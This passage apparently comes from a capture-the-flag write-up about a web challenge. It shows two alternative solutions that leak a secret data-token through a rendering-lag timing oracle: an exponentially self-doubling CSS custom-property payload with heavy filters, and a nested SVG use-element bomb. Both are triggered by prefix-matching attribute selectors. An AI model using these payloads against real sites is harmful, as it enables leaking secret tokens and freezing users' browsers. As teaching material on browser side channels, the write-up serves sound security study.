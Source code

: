 It is also possible to make a timing differential using *lag*

For example, [_arkark's solution](https://gist.github.com/arkark/25129c14de194406d0e6fad15c907ad9#webanother-csp) uses a css that takes a long time to render

```html
<style>
  [data-token ^= "0"]::before {
    --0: attr(data-token);
    --1: var(--0)var(--0);
    --2: var(--1)var(--1);
    --3: var(--2)var(--2);
    --4: var(--3)var(--3);
    --5: var(--4)var(--4);
    --6: var(--5)var(--5);
    --7: var(--6)var(--6);
    --8: var(--7)var(--7);
    --9: var(--8)var(--8);
    --a: var(--9)var(--9);
    --b: var(--a)var(--a);
    --c: var(--b)var(--b);
    --d: var(--c)var(--c);
    --e: var(--d)var(--d);
    --f: var(--e)var(--e);
    --g: var(--f)var(--f);
    content: var(--g);
    font-size: 100em;
    filter: blur(10000px) drop-shadow(1024px 1024px 1024px blue);
  }
</style>
```

[garvinator's solution]() uses svg instead:

```html
<style>
    h1[data-token^='0'] + style + svg {
        display: block !important;
    }
</style>
<svg xmlns="http://www.w3.org/2000/svg" style="display: none;">
    <path id="a" d="M0,0"/>
    <g id="b"><use href="#a"/><use href="#a"/><use href="#a"/></g>
    <g id="c"><use href="#b"/><use href="#b"/><use href="#b"/></g>
    <g id="d"><use href="#c"/><use href="#c"/><use href="#c"/></g>
    <g id="e"><use href="#d"/><use href="#d"/><use href="#d"/></g>
    <g id="f"><use href="#e"/><use href="#e"/><use href="#e"/></g>
    <g id="g"><use href="#f"/><use href="#f"/><use href="#f"/></g>
    <g id="h"><use href="#g"/><use href="#g"/><use href="#g"/></g>
    <g id="i"><use href="#h"/><use href="#h"/><use href="#h"/></g>
    <g id="j"><use href="#i"/><use href="#i"/><use href="#i"/></g>
    <g id="k"><use href="#j"/><use href="#j"/></g>
</svg>
```

The solving method for these two are basically identical to the intended solution though, it the oracle hits, it will take longer than if it does not.